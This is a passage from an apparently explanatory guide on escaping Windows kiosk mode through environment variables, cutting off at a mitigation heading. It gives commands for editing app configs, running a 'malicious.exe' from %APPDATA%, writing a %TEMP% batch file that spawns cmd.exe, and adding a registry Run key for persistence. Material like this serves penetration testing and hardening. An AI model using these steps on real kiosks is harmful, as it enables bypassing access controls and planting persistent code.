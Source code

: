#### Example:
If an application running in kiosk mode stores its settings in `%APPDATA%`, you might be able to modify those settings to disable kiosk mode or gain additional functionality.

```cmd
notepad %APPDATA%\MyKioskApp\config.ini
```

### 3. **Running Executables from %APPDATA% or %HOMEPATH%**
You can place executables in these directories and run them, potentially bypassing restrictions.

#### Example:
Copy a malicious executable to `%APPDATA%` and run it.

```cmd
copy C:\path\to\malicious.exe %APPDATA%
%APPDATA%\malicious.exe
```

### 4. **Using %TEMP% Directory**
The `%TEMP%` directory is writable by all users and can be used to store and execute temporary files.

#### Example:
Create a script or executable in the `%TEMP%` directory and run it.

```cmd
echo @echo off > %TEMP%\breakout.bat
echo echo Breaking out of kiosk mode >> %TEMP%\breakout.bat
echo cmd.exe >> %TEMP%\breakout.bat
%TEMP%\breakout.bat
```

### 5. **Leveraging %WINDIR% and System Directories**
The `%WINDIR%` variable points to the Windows installation directory. While direct modification of system files is generally restricted, understanding the locations can help in planning further exploits.

```cmd
cd %WINDIR%
```

### 6. **Creating Persistent Changes**
Environment variables can be set persistently using the Windows Registry. This might help in creating a persistent breakout mechanism.

#### Example:
Set a custom script to run at startup by modifying the registry.

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v MyBreakoutScript /t REG_SZ /d "%APPDATA%\breakout.bat" /f
```

### Mitigation Strategies
To mitigate risks associated with environment variable exploits in kiosk mode:
